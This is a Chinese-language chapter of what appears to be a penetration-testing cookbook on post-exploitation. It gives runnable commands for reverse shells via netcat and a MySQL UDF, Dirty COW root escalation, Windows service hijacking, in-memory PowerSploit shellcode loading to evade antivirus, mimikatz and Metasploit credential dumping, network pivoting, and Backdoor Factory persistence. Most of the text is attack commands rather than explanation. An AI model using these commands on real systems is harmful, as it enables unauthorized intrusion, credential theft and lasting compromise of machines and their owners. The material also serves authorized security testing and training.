










# 第八章：现在有 Shell 了，怎么办？

在本章中，我们将涵盖以下教程：

+   生成 TTY shell

+   寻找弱点

+   水平升级

+   垂直升级

+   节点跳跃：转向

+   Windows 上的特权升级

+   PowerSploit

+   使用 mimikatz 提取明文密码

+   从机器中转储其他保存的密码

+   转向

+   为了持久性而给可执行文件加后门

# 介绍

这是特权升级，正如维基百科所述，**特权升级**是利用操作系统或软件应用程序中的漏洞、设计缺陷或配置疏忽来获取对通常受到应用程序或用户保护的资源的提升访问权限的行为。这导致对资源的未经授权访问。可能存在两种特权升级：

+   **水平**：这种情况发生在我们能够执行原本不是为当前用户访问而设计的命令或函数的条件下

+   **垂直**：这种利用发生在我们能够将我们的特权提升到更高的用户级别时，例如，在系统上获取 root 权限

在本章中，您将学习在 Linux 和 Windows 系统上提升特权的不同方法，以及访问内部网络的方法。

# 生成 TTY Shell

我们已经涵盖了不同类型的特权升级。现在让我们看一些关于如何在这个系统上获取 TTY shell 的例子。TTY 展示了一个简单的文本输出环境，允许我们输入命令并获取输出。

# 如何做...

1.  让我们看一个例子，我们有一个运行 zenPHOTO 的 Web 应用程序：



1.  zenPHOTO 已经有一个公开的漏洞正在运行，我们通过有限的 shell 获得了对它的访问：



1.  由于这是一个有限的 shell，我们尝试逃离它，并通过首先在系统上上传`netcat`，然后使用`netcat`来获取反向连接。

```
 wget x.x.x.x/netcat –o /tmp/netcat
```


1.  现在我们可以使用以下命令进行反向连接：

```
 netcat <our IP > -e /bin/bash <port number>
```


1.  看着我们的终端窗口，在那里我们设置了监听器，我们会看到一个成功的连接：

```
 nc –lnvp <port number>
```


让我们获取一个更稳定的 TTY shell；假设这是一个 Linux 系统，我们已经在上面安装了 Python，并且我们可以使用这个命令获取一个 shell：

```
python -c 'import pty; pty.spawn("/bin/sh")'
```


我们现在有了一个更好的执行命令的方式。有时，我们可能会发现自己处于这样一种情况：我们通过 ssh 或其他方法获得的 shell 是一个有限的 shell。

一个非常著名的有限 shell 是`lshell`，它只允许我们运行一些命令，比如`echo`、`ls`、`help`等。逃离`lshell`很容易，因为我们只需要输入这个：

```
echo os.system('/bin/bash')
```

然后我们就可以访问一个没有更多限制的命令 shell。


# 还有更多...

还有其他各种方式可以使用 Ruby、Perl 等生成 TTY shell。这可以在[`netsec.ws/?p=337`](http://netsec.ws/?p=337)上看到。

# 寻找弱点

现在我们有了一个稳定的 shell，我们需要寻找漏洞、错误配置或任何能帮助我们在系统上提升特权的东西。在这个教程中，我们将看一些提升特权以获取系统根目录的方法。

# 如何做...

我建议大家在服务器上有了 shell 之后，尽可能多地进行枚举：我们知道的越多，我们就有更好的机会在系统上提升特权。

如`g0tmi1k`所述，提升特权的关键步骤在系统上是：

+   **收集**：枚举，更多的枚举，还有更多的枚举。

+   **过程**：整理数据，分析和排序。

+   **搜索**：知道要搜索什么以及在哪里找到利用代码。

+   **适应**：自定义漏洞以适应。并非每个漏洞都可以直接在每个系统上使用。

+   **尝试**：准备好（很多）试错。

我们将看一些在互联网上常见的脚本，这些脚本通过格式化的方式打印出我们需要的任何信息，从而使我们的工作更加轻松。

第一个是`LinEnum`，这是一个由 reboot 用户创建的 shell 脚本。它执行了 65 多项检查，并显示了我们需要开始的一切：


查看源代码，我们将看到它将显示内核版本、用户信息、可写目录等信息：



我们可以使用的下一个脚本是`LinuxPrivChecker`。它是用 Python 制作的。这个脚本还建议可以在系统上使用的特权升级漏洞：


这些脚本很容易在 Google 上找到；但是，关于这个或者我们可以使用手动命令自己完成工作的更多信息可以在[`netsec.ws/?p=309`](http://netsec.ws/?p=309)和 G0tmilk 的博客[`blog.g0tmi1k.com/`](https://blog.g0tmi1k.com/)找到。

另一个很棒的脚本是由`Arr0way`（[`twitter.com/Arr0way`](https://twitter.com/Arr0way)）创建的。他在他的博客[`highon.coffee/blog/linux-local-enumeration-script`](https://highon.coffee/blog/linux-local-enumeration-script)上提供了源代码。我们可以阅读博客上提供的源代码，以检查脚本的所有功能：



# 水平升级

您已经学会了如何生成 TTY shell 并执行枚举。在这个教程中，我们将看一些可以进行水平升级以获得更多系统特权的方法。

# 如何做...

在这里，我们有一个情况，我们已经以`www-data`的身份获得了一个反向 shell。

运行`sudo –-list`，我们发现用户被允许以另一个用户`waldo`的身份打开配置文件：


因此，我们在 VI 编辑器中打开配置文件，并在 VI 的命令行中输入以下内容以在 VI 中获取 shell：

```
!bash
```


现在我们有一个以用户`waldo`身份的 shell。所以，我们的升级是成功的。

在某些情况下，我们还可能在`ssh`目录中找到授权密钥或保存的密码，这有助于我们进行水平升级。

# 垂直升级

在这个教程中，我们将看一些例子，通过这些例子我们可以访问受损系统上的 root 账户。成功升级的关键是尽可能多地收集有关系统的信息。

# 如何做...

对任何盒子进行 root 的第一步是检查是否有任何公开可用的本地 root 漏洞：

1.  我们可以使用诸如**Linux Exploit Suggester**之类的脚本。这是一个用 Perl 构建的脚本，我们可以指定内核版本，它将显示可能公开可用的漏洞利用，我们可以使用它来获得 root 权限。该脚本可以从[`github.com/PenturaLabs/Linux_Exploit_Suggester`](https://github.com/PenturaLabs/Linux_Exploit_Suggester)下载：

```
 git clone https://github.com/PenturaLabs/Linux_Exploit_Suggester.git
```


1.  现在我们使用`cd`命令进入目录：

```
 cd Linux_Exploit_Suggester/
```

1.  它很容易使用，我们可以通过命令找到内核版本：

```
 uname –a
```

1.  我们还可以使用我们在上一个教程中看到的枚举脚本。一旦我们有了版本，我们可以使用以下命令将其与我们的脚本一起使用：

```
 perl Linux_Exploit_Suggester.pl -k 2.6.18
```


让我们尝试使用其中一个漏洞利用；我们将使用最新的一个，即**dirty cow**。

这是 RedHat 解释的 dirty cow 的定义：在 Linux 内核的内存子系统处理**写时复制**（**COW**）破坏私有只读内存映射的方式中发现了竞争条件。非特权本地用户可以利用这个缺陷来获得对否则只读内存映射的写访问权限，从而增加他们在系统上的权限。

可以在 exploit DB 上看到这个漏洞代码[`www.exploit-db.com/exploits/40839/`](https://www.exploit-db.com/exploits/40839/)。这个特定的漏洞利用程序向`etc/passwd`添加了一个具有根权限的新用户：


我们下载漏洞并将其保存在服务器的`/tmp`目录中。它是用 C 语言编写的，所以我们可以使用服务器上的`gcc`编译它，使用以下命令：

```
gcc –pthread dirty.c –o <outputname> -lcrypt
```


我们使用以下命令`chmod`（更改文件权限）文件：

```
chmod +x dirty
```

然后我们使用`./dirty`运行它。我们将失去我们的反向连接访问权限，但如果一切顺利，我们现在可以使用用户名`firefart`和密码`firefart`作为根用户`ssh`到机器上。

我们使用以下命令尝试`ssh`：

```
ssh –l firefart <IP Address>
```


现在，dirty cow 有点不稳定，但我们可以使用这个解决方法来使其稳定：

```
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```

让我们执行命令 ID；我们将看到我们现在是系统的根用户！


现在让我们看另一种实现根权限的方法。在这种情况下，我们将假设我们在系统上有一个 shell，并且我们运行的枚举脚本向我们显示 MySQL 进程正在作为系统根用户运行。


MySQL 有一个名为**用户定义函数**（**UDF**）的功能；让我们看一种通过 UDF 注入获得根权限的方法。现在我们有两个选择：要么在受损系统上下载代码并进行编译，要么从[`github.com/mysqludf/lib_mysqludf_sys/blob/master/lib_mysqludf_sys.so`](https://github.com/mysqludf/lib_mysqludf_sys/blob/master/lib_mysqludf_sys.so)下载预编译代码。


一旦它被下载，我们就登录到数据库。通常，人们会将默认的 root 密码留空；或者，我们可以从运行在服务器上的 web 应用程序的配置文件中获取一个。

现在，我们创建一个表，并使用这些命令将我们的文件插入到表中：

```
create table <table name> (hello blob);
insert into <table name> values (load_file('/path/to/mysql.so'));
select * from <table name> into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';
```


对于 Windows 系统，命令是一样的；只是到 MySQL 的路径会有所不同。

接下来，我们创建一个`sys_eval`函数，它将允许我们以根用户身份运行系统命令。对于 Windows，我们运行这个命令：

```
CREATE FUNCTION sys_eval RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
```

对于 Linux，我们运行这个命令：

```
CREATE FUNCTION sys_eval RETURNS integer SONAME 'mysqludf.so;
```

现在我们可以使用`sys_eval`来做任何我们想做的事情；例如，要进行反向连接，我们可以使用这个：

```
select sys_eval('nc –v <our IP our Port> -e /bin/bash');
```


这将给我们一个作为系统根用户的反向 shell：


还有其他方法，比如将我们当前的用户添加到 sudoers 文件中。这完全取决于我们的想象力。

# 节点跳跃 - 枢纽

一旦我们在网络上的一个系统中，我们现在需要寻找网络上的其他机器。信息收集与我们在前几章中学到的内容是一样的。我们可以开始安装和使用 nmap 来查找其他主机以及正在运行的应用程序或服务。在这个示例中，您将学习一些获取网络中端口访问权限的技巧。

# 如何做...

假设我们已经可以访问一台机器的 shell。我们运行`ipconfig`并发现该机器内部连接到其他两个网络：


现在我们扫描网络并发现一些机器有一些端口是开放的。您学习了一种很酷的方法，可以将网络枢纽化，以便我们可以访问我们机器上其他网络后面运行的应用程序。

我们将使用以下命令进行`ssh`端口转发：

```
ssh –L <our port> <remote ip> <remote port> username@IP
```


完成后，我们打开浏览器并转到我们使用的端口号：


我们将访问远程主机上运行的应用程序。

# 还有更多…

还有其他端口转发的方法；例如，使用 proxychains 将帮助您动态转发运行在不同网络子网内的服务器上的端口。一些技术可以在[`highon.coffee/blog/ssh-meterpreter-pivoting-techniques/`](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/)找到。

# Windows 特权升级

在这个教程中，您将学习在 Windows Server 上获取管理员帐户的几种方法。有多种方法可以在 Windows 系统上获得管理员权限。让我们看看可以完成这个任务的几种方法。

# 如何做…

一旦我们在系统上有了 meterpreter，Metasploit 有一个内置模块，可以尝试三种不同的方法来获得管理员访问权限。首先，我们将看到 Metasploit 的臭名昭著的`getsystem`。要查看帮助，我们输入：

```
getsystem –h
```


为了尝试获取管理员权限，我们输入以下命令：

```
getsystem
```


我们可以看到我们现在是`NT AUTHORITY\SYSTEM`。有时，这种技术可能不起作用，所以我们尝试另一种方法来在机器上获取系统。我们将看一些重新配置 Windows 服务的方法。

我们将使用**sc**（也称为**服务配置**）来配置 Windows 服务。

让我们看看`upnphost`服务：

```
sc qc upnphost
```



首先，我们将我们的`netcat`二进制文件上传到系统上。一旦完成，我们可以使用我们的二进制文件更改正在运行的服务的二进制路径：

```
sc config upnphost binPath= "<path to netcat>\nc.exe -nv <our IP> <our port> -e C:\WINDOWS\System32\cmd.exe"
```


```
sc config upnphost obj= ".\LocalSystem" password= ""
```


我们确认更改是否已经生效：


现在我们需要重新启动服务，一旦完成，我们应该有一个带有管理员权限的后向连接：

```
net start upnphost
```

我们可以使用`net user add`命令来添加一个新的管理员用户到系统中，而不是使用`netcat`等其他方法。

现在让我们尝试另一种方法：Metasploit 有许多不同的用于 Windows 利用的本地漏洞。要查看它们，我们输入`msfconsole`使用`exploit/windows/local <tab>`。


我们将使用`kitrap0d`进行利用。使用`exploit/windows/local/ms10_015_kitrap0d`。我们设置我们的 meterpreter 会话和有效载荷：



然后我们运行利用程序：


我们有管理员权限。让我们再使用一个利用程序：臭名昭著的`bypassuac`：

```
use exploit/windows/local/bypassuac
```

我们现在设置我们在系统上拥有的当前 meterpreter 会话：

```
 set session 1
```

我们运行并看到第二个具有管理员权限的 meterpreter 已经为我们打开：


# 使用 PowerSploit

随着 PowerShell 的推出，也出现了新的利用 Windows 机器的方法。正如维基百科所描述的，PowerShell（包括 Windows PowerShell 和 PowerShell Core）是微软的任务自动化和配置管理框架，由基于.NET Framework 的命令行 shell 和相关脚本语言组成。

在这个教程中，我们将使用 PowerSploit，这是一个基于 PowerShell 的后渗透框架，用于在系统上获得 meterpreter 访问权限。

# 如何做…

以下是使用 PowerSploit 的步骤：

1.  现在假设我们有一个基于 Windows 的环境，在这个环境中我们已经成功获得了 shell 访问权限。我们在系统上没有管理员权限。

1.  让我们看一种很酷的方法，使用 PowerSploit 在不实际下载文件到系统上的情况下获取 meterpreter。它在 Kali 菜单中内置。


1.  这里的技巧是下载一个 PowerShell 脚本并将其加载到内存中，因为它从未保存在硬盘上，所以杀毒软件不会检测到它。

1.  我们首先检查 PowerShell 是否已安装，运行`powershell`：


1.  我们将使用这个命令。使用单引号很重要；否则，我们可能会得到一个缺少括号的错误：

```
 powershell IEX (New-Object Net.WebClient).DownloadString
      ('https://raw.githubusercontent.com/PowerShellMafia/
      PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1')
```


1.  我们不应该看到任何错误。现在我们的脚本已经准备好了，我们调用模块并使用以下命令查看帮助：

```
 Get-Help Invoke-Shellcode
```


1.  现在我们运行该模块：

```
 powershell Invoke-Shellcode -Payload
      windows/meterpreter/reverse_https -Lhost 192.168.110.33
      -Lport 4444 –Force
```


1.  在运行上述脚本之前，我们启动我们的处理程序。


1.  我们现在应该有一个 meterpreter。


1.  现在我们有了 meterpreter，我们可以使用之前提到的任何方法来获取系统权限。

# 还有更多...

PowerSploit 有很多可以用于进一步利用的 PowerShell 模块，比如获取权限、绕过杀毒软件等等。

我们可以在这里阅读更多信息：

+   [`github.com/PowerShellMafia/PowerSploit`](https://github.com/PowerShellMafia/PowerSploit)

+   [`null-byte.wonderhowto.com/how-to/hack-like-pro-use-powersploit-part-1-evading-antivirus-software-0165535/`](https://null-byte.wonderhowto.com/how-to/hack-like-pro-use-powersploit-part-1-evading-antivirus-software-0165535/)

# 使用 mimikatz 提取纯文本密码

现在我们有了 meterpreter，我们可以使用它从内存中转储密码。Mimikatz 是一个很好的工具。它尝试从内存中转储密码。

正如 mimikatz 的创造者所定义的：

“它是用 C 语言制作的，并被认为是一些与 Windows 安全性的实验”现在已经广为人知，可以从内存中提取纯文本密码、哈希值和 PIN 码以及 kerberos 票证。Mimikatz 还可以执行传递哈希、传递票证或构建 Golden 票证。

# 如何做…

以下是使用 mimikatz 的步骤：

1.  一旦我们有了 meterpreter 和系统权限，我们使用这个命令加载 mimikatz：

```
 load mimikatz
```


1.  要查看所有选项，我们输入这个命令：

```
 help mimikatz
```

1.  现在为了从内存中检索密码，我们使用 Metasploit 的内置命令：

```
 msv
```


1.  我们可以看到 NTLM 哈希值显示在屏幕上。要查看 Kerberos 凭据，我们输入这个：

```
 kerberos
```


如果有任何凭据，它们将在这里显示。

# 从机器中转储其他保存的密码

您已经学会了如何从内存中转储和保存纯文本密码。然而，有时并非所有密码都被转储。不用担心；Metasploit 有其他后期利用模块，我们可以使用这些模块来收集在我们入侵的服务器上运行的不同应用程序和服务的保存密码。

# 如何做…

首先，让我们检查一下机器上正在运行的应用程序。我们使用这个命令：

```
use post/windows/gather/enum_applications
```


我们看到了选项；现在我们只需要我们的会话，使用以下命令：

```
set session 1
```

运行它，我们将看到系统上安装的应用程序列表：



既然我们知道了正在运行的应用程序，让我们试着收集更多信息。

我们将使用`post/windows/gather/enum_chrome`。

它将收集所有的浏览历史、保存的密码、书签等。再次，我们设置我们的会话并运行这个：


我们将看到所有收集到的数据都已保存在一个 txt 文件中：


现在我们将尝试收集安装在机器上的 FileZilla 服务器（可用于传输文件的 FTP 服务器）的存储配置和凭据。我们将使用该模块：

```
use post/windows.gather/credentials/filezilla_server
```


我们设置会话并运行它，然后我们应该看到保存的凭据：



让我们使用另一个后渗透模块来转储数据库密码。我们将使用这个：

```
use exploit/windows/gather/credentials/mssql_local_hashdump
```


我们设置会话并使用`run -j`运行此命令。我们将在屏幕上看到凭据：


# 进入网络枢纽

一旦我们完全控制了系统中的一台计算机，我们的下一步应该是进入网络并尝试利用和访问尽可能多的机器。在这个示例中，您将学习使用 Metasploit 轻松实现这一点的方法。

# 如何做...

Metasploit 有一个内置的 meterpreter 脚本，允许我们添加路由并使我们能够使用当前机器攻击网络中的其他机器。这个概念非常简单；我们所要做的就是执行这个命令：

```
run autoroute –s <IP subnet>
```


完成后，我们可以简单地利用与我们在之前示例中介绍的相同方法来攻击机器。

# 持久性的后门

成功利用的一个重要部分是能够保持对受损机器的访问。在这个示例中，您将了解一个称为后门工厂的神奇工具。后门工厂的主要目标是使用我们的 shell 代码修补 Windows/Linux 二进制文件，以便可执行文件正常运行，并在每次执行时执行我们的 shell 代码。

# 如何做...

Backdoor Factory 已经安装在 Kali 中。可以使用`backdoor-factory`来运行。要查看此工具的所有功能，我们将使用帮助命令：

```
backdoor-factory –help
```



使用这个工具并不太难；但是，建议在部署到目标系统之前对二进制文件进行测试。

要查看要对其进行后门处理的特定二进制文件的可用选项，我们使用以下命令：

```
backdoor-factory –f <path to binary> -s show
```

然后我们将使用`iat_reverse_tcp_stager_threaded`：

```
backdoor-factory –f <path to binary> -s iat_reverse_tcp_stager_threaded –H <our IP> -P <Port>
```



接下来，我们选择要用于注入有效载荷的洞穴：


我们的二进制文件已经创建并准备部署。

现在我们需要做的就是运行一个处理程序，它将接受来自我们有效载荷的反向连接：


现在当在受害者机器上执行`.exe`时，我们将连接到我们的 meterpreter：


